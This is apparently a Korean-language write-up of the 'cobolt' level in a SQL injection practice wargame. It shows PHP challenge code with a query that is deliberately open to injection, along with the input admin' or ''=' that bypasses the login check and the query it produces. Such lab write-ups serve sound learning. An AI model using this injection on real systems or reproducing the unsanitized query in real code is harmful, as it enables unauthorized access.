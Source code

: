 # cobolt

소스코드는 다음과 같다.
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`id`가 `admin`이면 클리어가 된다.
이때 `id`와 `pw`를 우리가 넣어 줄 수 있는데
`pw`에 `md5`가 있으니, `id`에 값을 넣어 `escape`하면 될 것 같다.

> ?id=admin' or ''='&pw=1
이렇게 넣어준다면 `query`는 다음과 같다.

```sql
select id from prob_cobolt where id='admin' or ''='' and pw=md5('1')
```
이로써 `cobolt`를 잡게되었다.
